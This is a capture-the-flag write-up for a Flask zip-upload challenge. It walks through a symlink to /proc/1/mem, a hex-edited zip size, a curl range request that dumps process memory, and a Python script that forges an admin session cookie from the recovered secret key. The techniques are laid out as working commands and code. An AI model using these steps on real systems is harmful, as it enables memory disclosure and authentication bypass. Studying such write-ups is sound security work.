



# The Unzipper

This challenge was just insane and I will not elaboraty on to much detail. Here is how I solved it:

You can't inject anything into the site. You just need to upload Zip files. Everything else is just fake. The `Report the files to admin` button is just bait imo.

The main magic tricks here are: zips, linux file links and and incorrect implementation of `send_from_directory(extraction_dir, filename, as_attachment=True, download_name=filename).make_conditional(request, filename, filesize), 200`.

But lets start:

First we need to create a link to the `/proc/1/mem` file with `ln -s /proc/1/mem True`. It is '1' because it's basically the only process running inside this docker container. We have to use `True` as the file name because of the incorrect impplementation of `send_from_directory`:

```python
def make_conditional(
        self,
        request_or_environ: WSGIEnvironment | Request,
        accept_ranges: bool | str = False,
        complete_length: int | None = None,
    ) -> Response:
```

Here we can see, that originally the `filename` is actually the `accept_ranges` bool. And when setting the filename to `True`, it will accept ranges.

The Zip now has to 'act' as if the symlink inside has the sice of the largest range number. Because of this code:

```python
if file['name'] == filename:
            filesize = file['length']
            break
    return send_from_directory(extraction_dir, filename, as_attachment=True, download_name=filename).make_conditional(request, filename, filesize), 200
```

We can estimate the range by just brute forcing or by running it locally and get a shell into the local version and then running `cat /proc/1/maps`. This will print out the memory regions. I'm not sure in which region the secret key will be inside, so you have to try it a few times in the worst case. For exanoke:

```
578f2000-57c0a000 rw-p 00000000 00:00 0                                  [heap]
f5c40000-f5d00000 rw-p 00000000 00:00 0
f5d00000-f5d9a000 rw-p 00000000 00:00 0
f5d9a000-f5e00000 ---p 00000000 00:00 0
```

This (maybe) needs to be converted to decimal numbers.

Then we need to upload the File `True` inside a zip with `zip -y -r file.zip True`. We can fake the size of the `True` symlink by editing the zip file we created with an HexEdit tool like ImHex. You can get more information about the structure and the byte you have to modify [here](https://users.cs.jmu.edu/buchhofp/forensics/formats/pkzip.html). In ImHex it will look like this . `0B` is equal to 11 and the symlink is also 11 in size. Changing it to . The symlink in the zip file will appear now as 4GB.

You can now upload your modified zip file and than download the range of the mem with this command:

```bash
curl -G -v -H "Range: bytes=4124581888-4288876544" http://localhost:1337/api/download/e176d74c55424bbc2b4bc52b088146afcfec61005a866446/True --output memout.bin
```

With this we can download the internal memory of the process and therefor extract the Secret key.

When you open it, you can try to look for `Adding some entropy: ` since this is the start of the key. Here is an example screenshot 

With the secret key, we can generate an admin cookie and go to the `/api/flag` site and receive the flag.

For example with this python program:

```python
from flask import Flask, session
from flask.sessions import SecureCookieSessionInterface
import os

def generate_session_cookie(app, session_data):
    # Use test_request_context to create a request context
    with app.test_request_context('/'):
        # Update the session with the provided data
        session.update(session_data)
        
        # Use the SecureCookieSessionInterface to serialize the session
        session_interface = SecureCookieSessionInterface()
        serializer = session_interface.get_signing_serializer(app)
        
        # Generate the session cookie
        session_cookie = serializer.dumps(dict(session))
        return session_cookie

if __name__ == '__main__':
    # Create a Flask application instance
    app = Flask(__name__)
    
    test = os.urandom(24)
    print("os.urandom(24) = " + test.hex())
    
    # Set your secret key (replace 'your-secret-key' with your actual secret key)
    #secret_key_hex = '416464696e6720736f6d6520656e74726f70793a201930e1b442e6a6c37671bba32a62235eac782bb3cd92f88d'
    secret_key_hex = '416464696E6720736F6D6520656E74726F70793A201B0340EC2947389D385CEE67336F0D3EC5ECED396E9C920A'
    app.secret_key = bytes.fromhex(secret_key_hex)
    # Define the session data you want to store
    session_data = {
        'admin': True,
        # Add more key-value pairs as needed
    }
    
    # Generate the session cookie
    cookie_value = generate_session_cookie(app, session_data)
    
    # Output the session cookie value
    print("Session Cookie Value:", cookie_value)
```

The Flag: `S2G{7h15_CH4113N63_W45_700_D4mn_D1ff1CU17}`
